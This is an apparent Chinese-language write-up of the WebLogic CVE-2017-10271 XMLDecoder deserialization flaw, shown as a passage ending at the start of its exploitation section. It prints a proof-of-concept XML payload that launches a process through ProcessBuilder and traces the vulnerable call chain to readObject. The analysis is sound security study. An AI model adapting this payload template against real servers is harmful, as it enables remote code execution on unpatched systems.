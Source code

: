 ```xml
	<java version="1.7.0_80" class="java.beans.XMLDecoder">  
	      <new class="java.lang.ProcessBuilder">  
	           <string>calc</string><method name="start"/>  
	      </new>  
	</java>  
```

其实就是POC中的XML内容。

`var4.toByteArray()`：将var4的内容转为字节数组，然后传入`ByteArrayInputStream`转化为流。之后进入执行`receive( )`函数。

进入`WorkContextXmlInputAdapter `类，接收输入流，转为`XmlDecoder`对象。

```java
	public WorkContextXmlInputAdapter(InputStream var1) {  
	      this.xmlDecoder = new XMLDecoder(var1);  
	  }  
```

随后调用`readObject( )`方法进行反序列化操作，从而导致反序列化远程代码执行。

参照函数调用流程图，可知在`WorkContextTube`类的`readHeaderOld`函数的`receive( )`方法中，进行了多层调用，最终到达`readObject( )`。

跟踪`WorkContextEntrylmpl.class`类：

```java
	public static WorkContextEntry readEntry(WorkContextInput var0) throws IOException, ClassNotFoundException {  
	    String var1 = var0.readUTF();  
	    return (WorkContextEntry)(var1.length() == 0 ? NULL_CONTEXT : new WorkContextEntryImpl(var1, var0));  
	}  
```

调用`readUTF( )`方法，`WorkContextXmlInputAdapter `类中的`readUTF( )`方法如下：

```java
	public String readUTF() throws IOException {  
	        return (String)this.xmlDecoder.readObject();  
	    }  
```

调用`readObject( )`方法，进行反序列化操作，造成漏洞产生，返回反序列化的字符串。

---

## 漏洞利用


---

### 靶机环境

![CVE_2017_10271_1](./img/weblogic_CVE-2017-10271/CVE_2017_10271_1.png)
